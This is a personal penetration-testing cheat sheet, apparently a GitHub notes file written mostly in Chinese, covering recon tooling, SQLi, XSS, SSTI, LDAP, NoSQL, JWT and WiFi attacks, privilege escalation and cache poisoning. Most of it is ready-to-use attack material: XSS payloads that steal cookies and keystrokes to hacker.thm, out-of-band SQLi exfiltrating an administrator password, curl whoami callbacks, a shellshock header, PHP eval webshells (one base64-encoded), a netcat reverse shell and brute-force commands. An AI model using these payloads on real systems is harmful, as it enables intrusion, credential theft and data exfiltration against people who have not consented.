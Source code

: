 # 思路
信息收集    漏洞利用    权限提升    权限维持    内网渗透    横向移动    跨域攻击    痕迹清理
漏洞
验证码漏洞checklist
1验证码爆破
2验证码回显    response响应包内容
3验证码与手机号码未绑定认证关系 A接收到的验证码，可以用来认证B
4修改返回包绕过验证码
5验证码转发    对个手机号码发送验证码
6任意验证码登录
7验证码为空登录
8固定验证码登录
9验证码轰炸
# payloads
'
"
`
')
'))
")
"))
`)
`))
' or 1=1 -- -
' and 1=1 -- -
' and ''='
+AND+1=1'+ — +- 
+AND+1=1'+%23[#]
xxx' union select 1,2,3; -- -
XOR(if(now()=sysdate(),sleep(5),0))XOR
"XOR(if(now()=sysdate(),sleep(5),0))XOR"
'XOR(if(now()=sysdate()%2Csleep(15)%2C0))XOR'Z
XOR(if(now()=sysdate(),sleep(9),0))XOR\"Z
XXX'|(IF((now())LIKE(sysdate()),SLEEP(6),0))|'XXX
' || (select '') || '
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--
SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')
exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'
copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'
LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')
SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'
{{7*7}}
{{url_for.__globals__.os.popen('ls').read()}}
"><svg/onload=prompt(1)>
<script>javascript:alert(1)</script\x0D>
<img src/onerror=prompt(1)>
<IFRAME SRC="javascript:alert('XSS');"></IFRAME>
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
</textarea><script>fetch('http://{URL_OR_IP}?cookie=' + btoa(document.cookie) );</script>
<iframe %00 src=\"javascript:prompt(1)\"%00>
<iframe %00 src= javascript:fetch(\"//XXXXXXXXXXXXXXXXXXXXXXXXXXXXX.burpcollaborator.net/?param=\"+document.cookie)  %00>
"><svg onlod=confirm()>
--><svg onload=alert(document.domain)>
"><sVg/OnLuFy="X=y"oNloaD=;1^confirm(1)>/``¹//
"><sVg/OnLuFy="X=y"oNloaD=;1^confirm(1)> url encode + url encode
"><img src=x onerror=alert(document.cookie)>
javascript:alert("proof of concept")
<href="url" onmouseover=alert(1)>
<iframe %00 src=\"javascript:prompt(1)\"%00>
</script><script>alert(document.domain)</script> url encode
javascript:var{a:onerror}={a:alert};throw%20document.cookie url encode
<?xml version="1.0"?><!DOCTYPE foo SYSTEM "http://XXXXXXXXXXXXXXXXXXXXXXXXXXXXX.burpcollaborator.net/">

Recon 资产收集
subfinder -d example.com -all -recursive -o subfinder.txt
assetfinder --subs-only example.com > assetfinder.txt
findomain -t example.com | tee findomain.txt
收集子域 sublist3r — subfinder — asset finder — amass - gobuster - bbot
amass enum -d target.com -silent -o out.txt
subfinder -d target.com -silent -all -o out.txt
bbot -t target.com -f subdomain-enum web-basic -m portscan nuclei --allow-deadly --force
nuclei -l live_domains.txt -bs 50 -c 30
sublist3r -d nasa.gov -o subdomains1.txt
gobuster dns -d target.com -t 100 -w ../../xxx.txt -o out.txt
联合
subfinder -d target.com -silent | waybackurls | httpx -silent -sc | nuclei -o out.txt
naabu -list domains.txt -top-ports 1000 -silent -o naabuout.txt | httpx -silent -o httpxout.txt | aquatone -silent -out capitaloneout
google dork
site:target inurl:*.php?/*.jsp?  保存成.html文件并提取出全部url地址
cat target.html | grep -Eo "(http|https)://[a-zA-Z0-9./?=_-]*" | sort -u | grep -E "target.com"
过滤活动域名
httpx -l subdomains.txt -o urls.txt
cat subdomains.txt subdomains1.txt | sort | uniq > merged_subdomains.txt
cat subdomains.txt | httprobe | sort -u >> list.txt
收集API 节点
cat urls.txt | httpx -title -sc -server -fr -td -o out.txt
httpx -title -wc -sc -cl -ct -location -web-server -asn -o alive-subdomains.txt
cat list.txt | httpx -title -sc -server -fr -td -o out.txt
cat "toyota.com" | gau --threads 5 >> Enpoints.txt
cat httpx.txt | katana -jc >> Enpoints.txt
katana -u target.txt -jc -kf -aff -c 100 -cs domain.com -hl -d 9 -jsl -ps -pss waybackarchive,commoncrawl,alienvault -o out.txt
python3 lostsec.py -u target.com -p payloads/xor.txt -t 5
paramspider -d target.com -o urls.txt
cat urls.txt | sed 's/FUZZ//g' > final.txt
python3 lostsec.py -l final.txt -p payloads/xor.txt -t 5
echo target.com | gau --mc 200 | urldedupe > urls.txt
cat urls.txt | grep -E ".php|.asp|.aspx|.cfm|.jsp|.html|.htm" | grep '=' | sort > output.txt
cat output.txt | sed 's/=.*/=/' > final.txt
python3 lostsec.py -l final.txt -p payloads/xor.txt -t 5
echo target.com | katana -d 5 -ps -pss waybackarchive,commoncrawl,alienvault -f qurl | urldedupe > output.txt
katana -u target.com -d 5 | grep '=' | urldedupe | anew output.txt
cat output.txt | sed 's/=.*/=/' > final.txt

API/节点 去重
cat Enpoints.txt | uro >> Endpoints_F.txt
API/节点规则匹配 XSS, SQLi, SSRF, etc
cat Endpoints_F.txt | gf xss >> XSS.txt
XSS自动化工具
cat XSS.txt | Gxss -p khXSS -o XSS_Ref.txt
dalfox file XSS_Ref.txt -o Vulnerable_XSS.txt


Tool #1 — Katana
Using a depth-first strategy: katana -u to-crawl.txt -d 5 -jc -ct 1h -aff -fx -s depth-first -o katana-df.txt
Crawl with a breadth-first strategy: katana -u to-crawl.txt -d 5 -jc -ct 1h -aff -fx -s breadth-first -o katana-bf.txt
Using a headless mode: katana -u to-crawl.txt -d 5 -jc -ct 1h -aff -fx -headless -o katana-headless.txt
Tool #2 — Hakrawler
cat to-crawl.txt | hakrawler -d 5 -dr -insecure -t 10 -timeout 3600 | tee hakrawler.txt
Tool #3 — Gospider
gospider -S to-crawl.txt -q -d 5 -c 10 --sitemap --no-redirect -o gospider.txt

https://search.censys.io/
https://www.shodan.io/
Shodan Dork：
Ssl.cert.subject.cn:"sub.target.com" 200
httpx with the following flags: -sc -td -cl


google / duckduckgo.com
site:blog.intigriti.com csrf
site:pentester.land csrf
site:book.hacktricks.xyz csrf
site:cloud.hacktricks.xyz csrf
site:hackerone.com/reports csrf
site:infosecwriteups.com csrf
site:weekly.infosecwriteups.com csrf
site:portswigger.net Cheatsheet
site:website.com intext:Login OR intext:Register or intext:Create Account

# nmap
nmap -sn ip/idor
nmap -sS/-sT --min-rate 10000 --max-retries 1 --max-scan-delay 20ms -T4 --open -p- ip -oA path
nmap -sU --top-ports 20 ip -oA path
nmap -sU -sV --version-intensity 0 --min-rate 10000 -p- ip -oA path
grep open path | awk -F '/' '{print $1}' | paste -sd ','
nmap  -sT -sV -sC -O -p+ports ip -oA path
nmap -sS/-sT --script=vuln -p+ports ip -oA path
nmap -sU --top-ports 20 ip -oA path

# service
smb--445---smbmap/smbclient/crackmapexec/enum4linux
nfs--------showmount -e  ip  / mount -t nfs ip:/path  filedir 
ftp---21-----anonymous
rsync---873----    rsync -a "rsyn://99.99.99.99/"  check any directories or files
    rsync 99.99.99.99::gentoo/etc/passwd .
    rsync <destination> <source>
    mkdir .ssh && touch .ssh/authorized_keys
    rsync -r ./.ssh/ 192.168.129.126::fox/.ssh
    rsync -r 192.168.129.126::fox
    


# NO nmap 
linux/bash script
for i in {1..254};do ping -c 1 -w 1 192.168.1.$i | grep from;done

# bypass
example.com  403   dig example.com cname xxxxx.xxxx.com  cname域名/file  bypass 限制


#
![安全编码的输入清理技术](https://github.com/isecren/Security/assets/7948479/6b619965-6874-4d95-a5a0-c0a42f2dc605)

# HTTP 主机标头注入攻击
1提供任意主机标头
2注入重复的 Host 标头
3添加换行
4注入主机覆盖标头
5提供绝对 URL

# wifi crack   aircrack-ng工具包
airmon-ng    airmon-ng <start|stop|check> <interface> [channel or frequency]
airodump-ng  interface
airodump-ng --bssid 28:EF:01:35:34:85 -c 6 --write wpa-01 wlan0
aireplay-ng -0 100 -a 28:EF:01:35:34:85 -c 28:EF:01:23:46:68 wlan0
hashcat 破解wifi密码
.cap文件转hashcat格式.hc22000  https://hashcat.net/cap2hashcat/
hashcat –m 22000 wpa-01.hc22000 rockyou.txt
haschcat –m 2200 –a 3 wpa-01.hc22000 ?l ?l ?l ?l ?l ?l ?l ?l ?l ?l


# Tools
nikto
burpsuite
git-dumper  git-dumper http://example.com/.git/ 输出
Weevely - 武器化的 Web shell  weevely generate <password> <path>/weevely <URL> <password> [cmd]

"><img src=x onerror=alert(document.domain)>{{7*7}}'
User-Agent: () {:;}; /usr/bin/nslookup $(.whoami).myserver.com (It’s used to exploit shellshock vulnerability)

# wordpress
cmsmap -s http://www.domain.com -t 2 -a "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0"
wpscan --rua -e ap,at,tt,cb,dbe,u,m --url http://www.domain.com [--plugins-detection aggressive] --api-token <API_TOKEN> --passwords /usr/share/wordlists/external/SecLists/Passwords/probable-v2-top1575.txt #Brute force found users and search for vulnerabilities using a free API token (up 50 searchs)
#You can try to bruteforce the admin user using wpscan with "-U admin"

Gau

amass enum -active -d $1 -brute -w ~/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -o amass.txt
HTTP/HTTPS
cat amass.txt | httpx | aquatone -out aqua_$1
IP
cat amass.txt | aquatone -ports xlarge -out aqua_$1
nuclei -l aqua_$1/aquatone_urls.txt -t ~/nuclei-templates -es info -o nuclei_$1.txt
nuclei -u xxx.com -ss host-spray -dast
dnsrecon -d domain.com -t axrf # 区域传送漏洞

httpx 进行HTTP测试
httpx -l allDomains.txt -o liveDomains.txt 
httpx -l liveDomains.txt -srd subsScreens -ss  屏幕截图

模糊测试
当我开始对目录进行模糊测试时，不管状态代码是 200,404 还是 403。大多数时候 Gems 都在这些页面内。
ffuf 工具
模糊测试列表：
/jenkins/script

paramspider/arjun 参数测试
arjun -u https://site.com/endpoint.php -m GET,POST
eyewitness 检测url，自动屏幕截图
waybackurls -dates http://xxxx/xxx.php   存档数据
SQL 工具
sqlmap/ghauri
python sqlmap.py -u "https://www.target.com/" --skip-waf --tamper="between,randomcase,space2comment" -v 3 --random-agent --tor
sqlmap -u testphp.vulnweb.com --random-agent --crawl=3 --forms --hostname --current-db --smart



# SQL  PayloadsAllTheThings
'
"
`
')
'))
")
"))
`)
`))
oracle -- 
mssql -- /*comment*/ 
mysql -- /*comment*/ #    
postgresql -- /*comment*/ 
各种字符串连接方法 判断数据库类型
oracle 'hel'||'met'  
mssql 'hel'+'met'  
mysql 'hel' 'met'  concat('hel','met')  
postgresql 'hel'||'met'
oracle  substr('string',4,2)  
mssql/mysql/postgresql  substring('string',4,2)

' or 1=1 -- -
' and 1=1 -- -
' and ''='
+AND+1=1'+ — +- 
+AND+1=1'+%23[#]
xxx' union select 1,2,3; -- -
XOR(if(now()=sysdate(),sleep(5),0))XOR
'XOR(if(now()=sysdate()%2Csleep(15)%2C0))XOR'Z
XOR(if(now()=sysdate(),sleep(9),0))XOR\"Z
XXX'|(IF((now())LIKE(sysdate()),SLEEP(6),0))|'XXX
' || (select '') || '
copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'

database
Oracle ==> SELECT banner FROM v$version
Microsoft SQL Server ==> SELECT @@version
PostgreSQL ==> SELECT version()
MySQL ==> SELECT @@version
' UNION SELECT null,SUBSTRING(@@version,1,200) LIMIT 0,1 — MySQL version

' UNION SELECT null,SUBSTRING(@@version,1,200) WHERE row = 1 — MS SQL version

' union select null,substr(banner,1,200) from v$version%20 where rownum=1 — Oracle version

' UNION SELECT null,SUBSTRING(version(),1,200) LIMIT 1 — PostgreSQL version

MySQL & MSSQL:       ?lugu=316+AND+(SELECT+SUBSTRING(@@version,1,1))='4'
                    ?lugu=316+AND+(SELECT+SUBSTRING(@@version,1,2))='5$$'
Oracle:              ?lugu=316+AND+(SELECT+SUBSTR(version(),1,1)+FROM+DUAL)='4'
                    ?lugu=316+AND+(SELECT+SUBSTRING(@@version,1,2))='5$$'
PostgreSQL:          ?lugu=316+AND+(SELECT SUBSTRING(version(), 1, 1) = '4'
                    ?lugu=316+AND+(SELECT+SUBSTRING(@@version,1,2))='5$$'
INFORMATION_SCHEMA.SCHEMATA ：是存储数据库元数据的系统目录表。
SCHEMA_NAME ：是该表中存储数据库名称的列。
LIKE 'a%' :是过滤数据库名称的条件，仅返回以字母“a”开头的数据库名称。
AND + ( SELECT + 1 + FROM + INFORMATION_SCHEMA.SCHEMATA + WHERE + SCHEMA_NAME + LIKE + '$a$%' ) %3d1  intruder
SELECT table_name FROM information_schema.tables WHERE table_schema =  'your_database_name' ;
+ AND + ( SELECT + 1 + FROM + INFORMATION_SCHEMA.TABLES + WHERE + TABLE_SCHEMA + %3d + 'your_database_name' + AND + TABLE_NAME + LIKE + 'w%' ;) %3d1


# ssti
{{7*7}}
{{url_for.__globals__.os.popen('ls').read()}}
绕过单引号过滤器
有效负载： {{url_for.__globals__.os.popen(request.headers.hack).read()}}


#权限提升
history
search info:grep -R -i pass /home/* 2>/dev/null
bash version < 4.3
shellshock  check cmd:
env x='() { :; };echo "it is vulnerable"' bash -c date




# out of band 带外数据
select load_file(CONCAT('\\\\',(SELECT+@@VERSION),'.',(SELECT+user),'.',(SELECT+password),'.','v950miufeuuf5qgjf4bzv77v0m6du9iy.oastify.com\\vfw'))
curl `whoami`.yeg3rlzijxziatlmk7g20acy5pbgzbn0.oastify.com
curl $(whoami).yeg3rlzijxziatlmk7g20acy5pbgzbn0.oastify.com



# XSS bypass waf
Basic XSS
<script>alert('XSS');</script>
Encoding and Obfuscation
%3Cscript%3Ealert(%27XSS%27)%3B%3C%2Fscript%3E
Bypassing Advanced Filters with Polyglots
jaVasCript:/*-/*`/*\\\\`/*'/*"/**/(/* */oNcliCk=alert())//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!> <sVg/<sVg/oNloAd=alert()//>\\\\x3e


<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
</textarea><script>fetch('http://{URL_OR_IP}?cookie=' + btoa(document.cookie) );</script>
<iframe %00 src=\"javascript:prompt(1)\"%00>
<iframe %00 src= javascript:fetch(\"//XXXXXXXXXXXXXXXXXXXXXXXXXXXXX.burpcollaborator.net/?param=\"+document.cookie)  %00>
"><svg onlod=confirm()>
"><sVg/OnLuFy="X=y"oNloaD=;1^confirm(1)>/``¹//
"><sVg/OnLuFy="X=y"oNloaD=;1^confirm(1)> url encode + url encode
"><img src=x onerror=alert(document.cookie)>
<href="url" onmouseover=alert(1)>
<iframe %00 src=\"javascript:prompt(1)\"%00>
</script><script>alert(document.domain)</script> url encode
javascript:var{a:onerror}={a:alert};throw%20document.cookie url encode

尝试：
try URL encode
try double URL encode.
try triple URL encode.
try base64 encode.
文件上传 XSS---修改文件名参数以包含 XSS 负载
a) <img src=x onerror=alert('XSS')>.png
b) "><img src=x onerror=alert('XSS')>.png
c) "><svg onmouseover=alert(1)>.svg
d)<<script>alert('xss')<!--a-->a.png



# 原型污染是一种javascript漏洞，攻击者可以将任意属性添加到全局变量原型，然后这些属性可能被用户定义的对象继承。

# jwt 
bypass 绕过验证
CVE-2023-30845 通过使用 X-HTTP-Method-Override 请求标头绕过 JWT 检查！
curl http://example.com/api -X POST -H 'X-HTTP-Method-Override: PUT' -H 'Content-Type: application/json' --data '{"username":"xxx"}'
未经验证的签名--忘记验证签名了
越权漏洞等

签名有验证缺陷--NONE算法 alg->none
jwt_tools.py jwt-token -X a

破解弱共享密码
注意：必须是HMAC-SHA算法
jwt_tools.py jwt_token -C -d jwt_secrets.txt
echo jwt_token > jwt_file
hashcat -a 0 -m 16500 jwt_file  jwt_secrets --force

算法混淆攻击 RSA->HS256
构造jwt
jwt editor keys插件
1、获取公钥 public key
/jwks.json  /.well-known/jwks.json等
2、JWT Editor Keys 点击 NEW RSA KEY，复制jwks.json种key的值到jwk框，点击ok
copy public key as PEM 对其base64编码
3、点击new symmetric key 点generate 并替换K的值为pem编码后的值
4、回到请求体jwt，进行sign签名

标头参数住入
Jwk 注入
jwt editor keys插件
New rsa KEY generate
回到请求体jwt，attack embedded jwk
Jku 
jwt editor keys插件
1、生成一个RSA密钥 copy public key as jwk
2、创建一个webserver URL http://xxxx.xxx/jwk
3、回到请求体jwt，修改kid，添加jku,替换sub
kid 注入
jwt editor keys插件
1、生成new symmetric key generate
2、对称密钥 k值覆盖为null (base64编码)
3、回到请求体jwt，修改kid的值为../../../../../../dev/null
4、修改sub,点击 sign 签名


# LDAP
payload:")(cn=))(|(objectClass=*"
"(&(cn=))(|(uid=))(|(objectClass=*))(userpassword=[password])"
login bypass
user=*
password=*
--->(&(user=*)(password=*))
user=*)(&
password=*)(&
-->(&(user=*)(&)(password=*)(&))
user=*)(|(password=*
password=test)
--> (&(user=*)(|(password=*)(password=test))
user=*))%00
pass=any
--> (&(user=*))%00 --> Nothing more is executed
username = admin)(!(&(|
pass = any))
--> (&(uid= admin)(!(& (|) (webpassword=any)))) —> As (|) is FALSE then the user is admin and the password check is True.
username=admin))(|(|
password=any
--> (&(uid=admin)) (| (|) (webpassword=any))

# webshell
.htaccess文件
AddType指定
AddType application/x-httpd-php .png
将.png当作php文件解析
木马
上传文件，php扩展文件.phtml .phar .ptar
<?php phpinfo(); ?>
<?php 
@eval($_POST['cmd']);
?>
<?php
@eval($_REQUEST['cmd']);
?>
<?php system("whoami"); ?>
<?php
file_put_contents("shell.php","<?php @eval($_POST['cmd']); ?>");
file_put_contents("shell.php",base64_decode("PD9waHAgCkBldmFsKCRfUE9TVFsnY21kJ10pOyAKPz4="));
?>

#  Kubernetes 
使用kubectl get services --all-namespaces列出集群中的所有服务，然后查找类型为“LoadBalancer”或“NodePort”的服务。
如果您的集群中设置了 Ingress 控制器，您也可以使用此命令kubectl get ingress --all-namespaces
获取Kubernetes 集群中公开的服务
这种错误配置允许通过向节点的 IP 和端口组合发送请求来与反向代理直接通信，完全绕过负载均衡器
curl -i -s -k -X $’GET’ \
-H $’Host: service-1.kube.com’ \
$’https://<NODE-IP:8888>/'
发现敏感服务
1、crt.sh   "k8s.%.com"
2、github
3、端口扫描 Kubernetes 集群中可能会开放以下端口（取自Kubernetes 研讨会演示）：
4、探索网络插件  cAdvisor 
查找集群配置错误
当 Kubernetes API 暴露于远程交互时，此部分非常有用。
1. 检查API服务器的匿名访问
2. 检查ETCD匿名访问
如果ETCD可以匿名访问，您可能需要使用etcdctl工具。以下命令将获取存储的所有密钥：
etcdctl –endpoints=http://<MASTER-IP>:2379 get / –prefix –keys-only
3、检查Kubelet（只读端口）信息暴露情况

# bypass waf
alert = window[“al”+“ert”]。通过将“alert”关键字分成两部分并使用串联，我们可以避开 WAF 可能使用的简单关键字过滤器
用这个 `` 绕过括号 ()
用正斜杠 (/) 替换空格。此更改有助于避免 WAF 过滤器检测到可能寻找特定字符组合的情况
对符号进行编码是绕过 WAF 保护的重要组成部分。以下是该技术中使用的符号编码：
< 编码为 %3c
> 编码为 %3e
“ 编码为 %22
[ 编码为 %5b
] 编码为 %5d
` 编码为 %60
未编码有效负载：<svg/onload=window[“al”+”ert”]`1337`>

# IDOR 不安全直接对象引用
需要两个账号进行测试

# 敏感信息泄露
1、发现敏感信息-key
2、进行 Google 搜索 使用键名后跟术语“api docs curl”进行 Google 搜索，发现API接口

# SSTI 
payload: {{7*7}} 得到结果49 证明存在
读取etc/passwd  {{system('cat /etc/passwd')}}

路径遍历的根本原因是缺乏路径规范化
os.path.normpath(path).startswith("/app/resources")
注入漏洞的根本原因在于将数据视为代码
将数据与代码分离并对输入执行上下文转义。这种技术的一个主要例子是参数化查询。它隔离数据库查询的输入并执行转义




# 源码审计
SonarQube 这样的工具
XSS:
grep -Ri "\$_" . | grep "echo"
grep -Ri "\$_GET" . | grep "echo"
grep -Ri "\$_POST" . | grep "echo"
grep -Ri "\$_REQUEST" . | grep "echo"

Command execution:
grep -Ri "shell_exec(" .
grep -Ri "system(" .
grep -Ri "exec(" .

Code execution:
grep -Ri "eval(" .
grep -Ri "assert(" .
grep -Ri "preg_replace" . | grep "/e"

SQL Injection:
grep -Ri "\$sql" .
grep -Ri "\$sql" . | grep "\$_"

RFI/LFI:
grep -Ri "file_include" .
grep -Ri "include(" .
grep -Ri "require(" .
grep -Ri "include_once(" .
grep -Ri "require_once(" .
grep -Ri "require_once(" . | grep "\$_"

# nosql
{"username":"carlos","password":{"$ne":""},"$where":"Object.keys(this)[0].match('^.{§0§}§a§.*')"}
{"username":"carlos","password":{"$ne":""},"$where":"Object.keys(this)[1].match('^.{§0§}§a§.*')"}
{"username":"carlos","password":{"$ne":""},"$where":"this.resetToken.match('^.{§0§}§a§.*')"}



import pty
pty.spawn("/bin/bash")
pe 提权
suid 
ps -aux | grep root
<?php system("nc ip port -e /bin/bash")?>
hashcat / john the ripper
hashcat -m 0 hashcat.txt rockyou.txt  字典攻击
hashcat -a 3 -m 0 hashcat.txt ?a?a?a?a?a?a  蛮力破解 6个小写字母
hashcat -m 0 hashcat.txt rockyou.txt -o crack_password.txt 输出到文件crack_password.txt
flipper zero 一款小型手持设备，将各种硬件工具的功能整合到一个口袋大小的小工具中。
flipper zero 多协议支持  rfid nfc 红外 蓝牙
web缓存中毒/缓存欺骗
缓存位于服务器和用户之间，它保存特定请求的响应
URL: /MyAccount;var1=val → Path: /MyAccount

URL: /hello;var=a/world;var1=b;var2=c → Path: /hello/world
URL: /MyAccount.html → Path: /MyAccount (default HTML view)

URL: /MyAccount.css → Path: /MyAccount (CSS view or error if not present)

URL: /MyAccount.aaaa → Path: /MyAccount (default HTML view)
URL: /MyAccount%00aaa → Path: /MyAccount
Rule: rewrite /user/(.*) /account/$1 break;
URL: /users/MyAccount%0aaaa → Path: /account/MyAccount
Detecting origin delimiters
Detecting cache delimiters
GET /static-endpoint<DELIMITER><Random>
"/myAccount%3Fparam" → "/myAccount?param"
/home/index → /%68%6f%6d%65%2f%69%6e%64%65%78
GET /home/index?cacheBuster

GET /aaa/../home/index?cacheBuster or GET /aaa\..\home/index?cacheBuster
![image](https://github.com/user-attachments/assets/7cf1e8db-3ad5-415d-a9c5-9dc6e25a4c99)
![image](https://github.com/user-attachments/assets/d5873bcd-44ad-45ba-9966-91bcb18bb117)
![image](https://github.com/user-attachments/assets/2385c2b3-df86-4b2b-a8fc-078e71beebe9)
![image](https://github.com/user-attachments/assets/86d31c2d-5676-412f-92bf-c73bb98b351a)
/static
/assets
/wp-content
/media
/templates
/public
/shared
GET /<Dynamic_Resource><Delimiter><Encoded_Dot_Segment><Static_Directory>
![image](https://github.com/user-attachments/assets/a5f1626c-9105-4a5f-bf4c-7c09bfb4a5ca)
GET /<Static_Directory><Encoded_Dot_Segment><Dynamic_Resource>
![image](https://github.com/user-attachments/assets/a068ae91-9d6d-46a2-8910-311a3d971117)
![image](https://github.com/user-attachments/assets/d5fa6590-6946-4ee6-95ca-7e483270e8dd)
GET /<Dynamic_Resource><Delimiter><Encoded_Dot_Segment><Static_File>
![image](https://github.com/user-attachments/assets/43cdadf2-26d3-4ab6-a9b1-23c550ee195a)
GET /<Backend_Path><Path_Traversal><Poisoned_Path>
![image](https://github.com/user-attachments/assets/4c14ebae-5b48-4671-a2bd-6b4f5d8b5ae7)
GET /<Backend_Path><Delimiter><Path_Traversal><Poisoned_Path>
![image](https://github.com/user-attachments/assets/3f4db0b1-b0bb-40c8-a2af-063d4b97bffb)
![image](https://github.com/user-attachments/assets/1adc4181-57d1-43da-8a7b-195e31a5d7e7)
GET /<Poisoned_Path><Front-End_Delimiter><Path_Traversal><Backend_Path>



burp suite param miner 
find 未键入的标头
x-forwarded-host: burpclist html注入
nmap 信息收集
gobuster dir -u url -w medium.txt
源代码  javascript
默认密码  admin admin admin password
cms exploit-db 找cms漏洞
github 找是否开源  分析源代码 和配置文件
mysql -u user -p password -h ip
找到管理后台的用户名和密码 更新管理员的密码为自己的密码
使用用户名和新的密码登陆管理后台
在利用exploit-db中的漏洞上传php reverse shell
攻击机上nc -lnvp port  获取web shell
pe 提权
python3 -c 'import pty;pty.spawn("/bin/bash")'
sudo -l 列出当前用户可以提升的权限运行的允许的命令
all:all all
sudo /bin/sh
whoami
root
邀请新成员业务逻辑
错误配置 在用户接受邀请之前，成员数量不会增加 我们可以先将邀请链接发送给10位成员，然后接受所有成员
无计划用户可以邀请成员
拦截将可以邀请用户的API信息修改成普通用户的，发送成功，邀请用户成功
创建浏览器配置文件时的竞争条件
burp suite turbo intruder  添加一个随机位置作为有效载荷位置并增加线程
低权限用户可以通过API查看工作区数据  越权
原始IP地址泄露造成绕过防火墙
wazuh开源安全信息和事件管理工具（SIEM）
aws/s3存储桶的子域
subfinder 侦察子域工具
subzy 检查子域名签名 aws情况下 签名将是指定的存储桶不存在

john the ripper 多功能开源密码破解工具 旨在通过各种攻击方法破解弱密码
john hashed_passwords.txt
john --wordlist=单词列表文件 密码文件
john --incremental 密码文件
john --wordlist=单词列表文件 --rules 密码文件
john --wordlist=rockyou.txt hashed_passwords.txt
john --incremental hashed_passwords.txt
john --wordlist=rockyou.txt --rules hashed_passwords.txt
dos 登陆部分 password 长度  长密码 10000 在服务器上计算密码的哈希值 
for x in range(50000,500000,10000):
    print("a"*x)
判断响应时间是否存在延迟
其它地方
注册页面 长密码
忘记密码 长密码
修改密码 长密码
更改密码 长密码
google cloud armor 是web应用防火墙
pdf html 注入中ssrf的利用
ssrf完全读取和盲读取
hydra
http-post-form
http-get-form
hydra -l 用户名 -P 密码列表 ip/url http-post-form "/登录页面地址:登录请求:F=错误消息"
hydra -l 用户名 -P 字典 ip -t 4 ssh
wdms web的数据主控系统 先进的中间件
<svg/onload=alert(document.location)>


#  grafana 漏洞
http://x.x.x.x:3000/api/plugins?embedded=0


# graphql 漏洞
内省滥用
发送自省查询
query {
  __schema {
    types {
      name
      fields {
        name
      }
    }
  }
}

query {
  user(id: "invalid") {
    name
  }
}

query {
  adminUsers {
    id
    email
  }
}


# webpack js api
https://github.com/rtcatc/Packer-Fuzzer.git
-t adv   高级版


